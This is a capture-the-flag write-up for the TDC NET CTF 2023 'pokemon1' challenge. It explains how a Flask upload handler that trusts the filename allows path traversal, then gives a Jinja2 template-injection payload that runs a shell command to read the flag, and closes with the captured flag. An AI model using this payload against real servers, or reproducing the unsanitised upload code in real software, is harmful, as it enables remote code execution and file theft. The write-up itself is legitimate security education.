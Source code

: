 ```yaml
---
layout: post
title:  "TDC NET CTF 2023 - clone2own - pokemon1"
date:   2023-09-09 16:17:42 +0200
categories: writeups
---
```


# Pokemon 1
`Clone2Own`
We note that in the `app.py` file which is the main flask application, the following code handles the upload functionality:
```python
@app.route('/uploadfile', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        print(request)

        if request.files.get('file'):
            # read the file
            file = request.files['file']

            # read the filename
            filename = file.filename

            # create a path to the uploads folder
            filepath = os.path.join(app.config['UPLOAD_FOLDER'], filename)

            # Save the file to the uploads folder
            file.save(filepath)
```
This functionality checks server-side, if a POST request is being sent, and if it is it looks for the parameter `file`, which it will add to the result of `os.path.join`.  Doing a simple test:
```python
>>> os.path.join("/home/cave", "hello")
'/home/cave/hello'
>>> os.path.join("/home/cave", "../hello")
'/home/cave/../hello'
```
We can see that we can have these `../` which will allow for path traversal. This means we can save files in other folders. Now what to we do with this? Well we note the following code also in `app.py`:
```python
@app.route('/')
def home():
    return render_template('index.html')
```
It renders the template. We can do server-side template injection here. Searching for `Jinja2 SSTI` online brings us to `Hacktricks` and I used something like this payload:
```python
{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("cat /flag*").read() }}
```

Flag:
`TDCNET{POKEMON_DU_SKAL_FANGE_DEEEEEEM_DET_KRU+00E6VER_BU+00E5DE_MOD_OG_HELD}`
